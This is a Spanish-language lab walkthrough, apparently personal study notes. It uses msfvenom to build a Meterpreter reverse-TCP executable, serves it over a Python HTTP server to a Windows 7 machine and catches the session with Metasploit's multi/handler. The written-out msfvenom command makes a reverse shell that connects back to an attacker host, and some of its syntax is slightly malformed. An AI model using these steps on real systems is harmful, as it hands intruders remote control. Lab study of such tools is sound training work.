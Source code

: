 - Vamos a utilizar Windows 7.
- Msfvenom es un generador de payloads


- Para iniciarlo debemos usar el siguiente comando:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST (IP_MAQUINA_ATACANTE) LPORT=443 -f exe -o (NOMBRE_DE_ARCHIVO)
```
- Esta información podemos buscarlo por internet

![](../Imagenes/Pasted%20image%2020241212195502.png)

- Ahora vamos a compartirlo dentro de un servidor http con python en el puerto 80

![](../Imagenes/Pasted%20image%2020241212195601.png)

- En la maquina windows 7 entramos a la web.

![](../Imagenes/Pasted%20image%2020241212195743.png)

- Lo descargamos y lo guardamos en el escritorio.
- Ahora vamos a dejar en escucha kali.
- Vamos a usar el metasploit para usar la herramienta `exploit/multi/handler`.
	- Para esto usamos el siguiente comando:
```
use /multi/handler
```

![](../Imagenes/Pasted%20image%2020241212200304.png)

- Vamos a configurarlo usando el comando `show options`.

![](../Imagenes/Pasted%20image%2020241212200352.png)

- Es importante saber que esta herramienta genera una reverse shell, pero en windows creamos un payload con meterpreter.
- Para eso lo configuramos de la siguiente forma:

![](../Imagenes/Pasted%20image%2020241212200629.png)

- Ya tenemos nuestro payload configurado:

![](../Imagenes/Pasted%20image%2020241212200753.png)

- Ejecutamos el payload con el comando `run` y a la vez ejecutamos en windows 7 el payload descargado y ya tenemos conexión.

![](../Imagenes/Pasted%20image%2020241212200926.png)

